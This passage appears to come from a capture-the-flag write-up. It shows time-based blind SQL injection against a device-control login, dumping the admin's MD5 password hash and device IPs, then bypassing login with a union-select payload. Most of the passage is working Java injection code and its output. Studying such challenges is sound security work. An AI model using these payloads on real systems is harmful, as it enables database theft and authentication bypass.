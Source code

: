 users(id, username, password)


#### devices table

The same process above could be applied to `devices` table.

```java
    PayloadRequest.blindColumnName("devices",0); // id
    PayloadRequest.blindColumnName("devices",1); // ip
    PayloadRequest.blindColumnName("devices",2); // None
```
devices(id, ip)

#### Dumping

Knowing the table structure we could dump the values:

```java
	public static String blindUsername(int offset) throws Exception {
	    String injection = "'||(IF((SELECT ascii(substr(username,%d,1)) from users limit "+offset+",1)%c%d,SLEEP(%d),1))#";
	    return PayloadRequest.blindString(injection, 5);
	}
	
	PayloadRequest.blindUsername(0); // admin
	PayloadRequest.blindUsername(1); // None
	
	public static String blindColumnUsersValues(String column, int length) throws Exception {
	    String injection = "'||(IF((SELECT ascii(substr("+column+",%d,1)) from users where username = 'admin')%c%d,SLEEP(%d),1))#";
	    return PayloadRequest.blindString(injection, length);
	}
	
	public static String blindPassword() throws Exception {
	    return PayloadRequest.blindColumnUsersValues("password", 32);
	}
	
	PayloadRequest.blindPassword(); // 5f4dcc3b5aa765d61d8327deb882cf99
```

There is only one user ("admin", "5f4dcc3b5aa765d61d8327deb882cf99"). Is that a hash? _Googled_ it and found the answer, yes it is: md5('password'). Now we are able to log in using admin:password or even using the sqli:

```java
    System.out.println(PayloadRequest.sendCommand("admin", "password", "getTemp"));
    // {"temperature": 73, "success": true}
    System.out.println(PayloadRequest.sendCommand("' union all select '47bce5c74f589f4867dbd57e9ca9f808'#", "aaa", "getTemp"));
    // {"temperature": 73, "success": true}
```

Time to dump table `devices`. 

```java
	public static String blindIpDevices(int offset) throws Exception {
	    String injection = "'||(IF((SELECT ascii(substr(ip,%d,1)) from devices limit "+offset+",1)%c%d,SLEEP(%d),1))#";
	    return PayloadRequest.blindString(injection, 16); // Fixed length
	}
	...
	PayloadRequest.blindIpDevices(0);
	// Device: 0	192.88.99.253
	PayloadRequest.blindIpDevices(1);
	// Device: 1	192.88.99.252
	PayloadRequest.blindIpDevices(2);
	// Device: 2	10.90.120.23
```
